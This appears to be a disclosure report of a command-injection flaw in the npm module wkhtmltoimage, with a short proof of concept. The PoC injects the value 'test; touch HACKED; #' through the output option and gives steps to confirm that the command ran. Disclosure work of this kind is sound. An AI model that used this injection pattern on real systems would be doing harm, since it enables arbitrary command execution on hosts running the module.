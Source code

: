 # Description

The `wkhtmltoimage` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var wkhtmltoimage = require('wkhtmltoimage');
wkhtmltoimage.generate("test", {output:"test; touch HACKED; #"}, function(){});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i wkhtmltoimage # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
